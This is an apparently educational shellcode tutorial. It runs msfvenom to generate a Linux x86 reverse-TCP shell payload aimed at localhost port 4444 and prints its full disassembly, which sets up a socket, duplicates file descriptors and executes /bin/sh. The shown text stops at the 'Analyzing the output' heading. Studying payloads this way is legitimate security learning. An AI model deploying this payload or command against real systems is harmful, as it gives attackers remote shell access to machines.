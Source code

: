 I'm going to teach you how to not only read shellcode, but create your own as well.

## Approach
There are dozens of approaches you could take to create shellcode, but before we create it, we first need to need to understand how it works. 
To better understand what's happening, we're going to reverse enginner and analyze it.

```
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment# msfvenom --arch x86 --platform linux -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 port=4444 | ndisasm -u -
No encoder specified, outputting raw payload
Payload size: 68 bytes

00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
00000018  687F000001        push dword 0x100007f
0000001D  680200115C        push dword 0x5c110002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
```


## Analyzing the output

